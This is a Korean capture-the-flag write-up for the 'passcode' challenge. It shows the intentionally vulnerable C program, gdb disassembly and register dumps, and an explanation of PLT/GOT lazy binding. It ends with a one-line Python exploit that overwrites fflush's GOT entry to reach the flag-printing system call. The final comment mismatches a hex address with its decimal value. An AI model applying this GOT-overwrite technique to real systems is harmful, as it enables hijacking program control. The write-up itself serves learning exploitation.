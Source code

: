 ```yaml
---
sort: 5
---
```


# passcode

home 디렉토리에 passcode.c 파일을 통해 소스코드를 볼 수 있다.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

login함수에 scanf사용되는 곳 보면 passcode1과 passcode2앞에 &가 붙어있지 않은 것을 볼 수 있다. 따라서 passcode1과 passcode2의 주소값이 아닌 passcode1과 passcode2에 담겨있는 값 자체를 주소값으로써 사용하게 된다. passcode1, 2는 초기화가 되지 않으므로 메모리 상에 존재하는 쓰레기 값이 사용될 수 있다. 이 쓰레기 값을 우리가 조작할 수 있다면 충분히 exploit할 수 있을 것이다.<br><br>
사용자가 넣을 수 있는 input값으로 welcome의 name이 있으니 해당 부분과 passcode1, 2의 주소값을 살펴보았다.

```gdb
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp

   ... (중략) ...

   0x0804862f <+38>:    lea    -0x70(%ebp),%edx    <-- name
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>

   ... (후략) ...

(gdb) b* 0x08048632        <-- name의 주소가 edx안에 있음
Breakpoint 1 at 0x8048632

(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp

   ... (중략) ...

   0x0804857c <+24>:    mov    -0x10(%ebp),%edx     <-- passcode1
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>

   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    $0x8048786,%eax
   0x0804859d <+57>:    mov    %eax,(%esp)
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    $0x8048783,%eax

   0x080485aa <+70>:    mov    -0xc(%ebp),%edx      <-- passcode2
   0x080485ad <+73>:    mov    %edx,0x4(%esp)
   0x080485b1 <+77>:    mov    %eax,(%esp)
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>

   ... (중략) ...

   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>

   ... (후략) ...

(gdb) b* 0x0804857f        <-- passcode1의 주소가 ebp - 0x10임
Breakpoint 2 at 0x804857f

Breakpoint 1, 0x08048632 in welcome ()
(gdb) i r edx
edx            0xffb89088       -4681592  <-- name의 주소

Breakpoint 2, 0x0804857f in login ()
(gdb) i r ebp
ebp            0xffb890f8       0xffb890f8   <-- login함수의 ebp값. passcode1과 passcode2는 같은 함수 내에 있으므로 ebp 값이 같음.
```

정리를 하자면, gdb로 살펴보았을 때 name의 주소는 0xffb89088, passcode1의 주소는 0xffb890e8, passcode2의 주소는 0xffb890ec이다. <br>
어차피 stack에는 ASLR이 걸려있기 때문에 각각의 주소값 자체는 변하겠지만 주소 사이의 간격은 변하지 않기 때문에 간격을 계산해야한다. <br><br>
name과 passcode1과의 간격 : 0xffb890e8 - 0xffb89088 = 96byte <br>
name과 passcode2와의 관격 : 0xffb890ec - 0xffb89088 = 100byte <br><br>
name에 입력할 수 있는 최대길이가 100byte이기 때문에 passcode1값만 임의로 조작할 수 있다.<br>
그리고 또 하나 중요한 사실은, passcode2값은 조종할 수 없기 때문에 passcode2에는 쓰레기값이 들어가있다. 따라서 passcode2를 사용하는 login의 두번째 scanf를 처리하는 도중 segmentation fault가 발생하게 된다. 결국 두번째 scanf에 다다르기 전에 passcode1의 조작을 통해 프로그램의 흐름을 변경해야 segmentation fault가 발생하지 않고 공격에 성공할 수 있게 된다. **함수들이 plt, got를 이용한다는 점을 이용하여 두번째 scanf에 도달하기 전에 존재하는 함수의 got값을 조작하여 프로그램의 흐름을 변경하려고 한다.**

## plt, got

shared library에 존재하는 함수들의 동적 load를 위해서 plt, got가 사용된다.<br>
plt는 함수를 동적으로 로드하는 루틴 및 실제 함수 루틴으로 연결해주는 연결고리 역할을 하는 코드이고, got는 plt루틴이 점프할 위치(주소값)를 저장해놓는 영역이다.<br>

```gdb
(gdb) x/3i 0x8048430
   0x8048430 <fflush@plt>:      jmp    *0x804a004 <-- fflush함수의 got영역
   0x8048436 <fflush@plt+6>:    push   $0x8       <-- fflush함수 동적 load루틴
   0x804843b <fflush@plt+11>:   jmp    0x8048410

(gdb) x/wx 0x804a004
0x804a004 <fflush@got.plt>:     0x08048436
```

프로그램이 실행되자마자 사용되는 함수들을 모두 load해놓고 프로그램을 돌리지 않는다. **프로그램에서 해당 함수를 처음 호출할 때가 되어서야 해당 함수를 load하는데, 이를 lazy binding이라고 한다.** <br>
got영역에는 plt에서 jump할 주소가 들어있는데, 함수가 처음으로 호출될때에는 해당 함수를 동적으로 load하는 루틴으로 jump하도록 하는 루틴의 주소로 설정되어있다. 해당 주소는 plt영역내에 있다.<br>
함수를 load하는 루틴에서 함수를 load한 후 함수의 주소를 got영역에 쓴다. 따라서 해당 함수를 다시 부르게 될 경우, got값이 해당 함수 값으로 변경이 되어있기 때문에 다시 load 루틴으로 가지 않고 바로 함수로 jump하게 된다.<br><br>
**따라서 함수의 got값을 조진다면, 프로그램의 흐름을 원하는대로 바꿀 수 있게 된다.** <br><br>
login함수를 살펴보니, 첫번째 scanf와 두번째 scanf사이에 fflush함수가 존재하길래 fflush함수의 got값을 login함수 내에 존재하는 system("/bin/cat flag") 루틴의 주소로 변경했다.<br>
name을 통해서 passcode1부분에 fflush의 got영역 주소를 쓰고, login함수의 첫번째 scanf에서 system("/bin/cat flag")루틴의 주소를 입력하게 되면 fflush함수가 호출되는 순간 flag를 얻을 수 있다.

```warning
name을 입력받을 때 scanf를 통해서 입력받기 때문에 got의 주소값에 tab(0x09), 개행(0x0a), space bar(0x20), null(0x0)과 같은 값들이 들어가면 거기서 잘린다. 잘 확인하자.
```

```bash
#                        fflush got의 주소 = 0x804a004        0x080485e3 = 134514135
passcode@pwnable:~$ (python -c "print('\x04\xa0\x04\x08'*25+'\n134514135\n')";cat) | ./passcode
```

```tip
## 알게 된 점

scanf쓸 때 & 잘 붙이자.

plt, got, lazy binding
```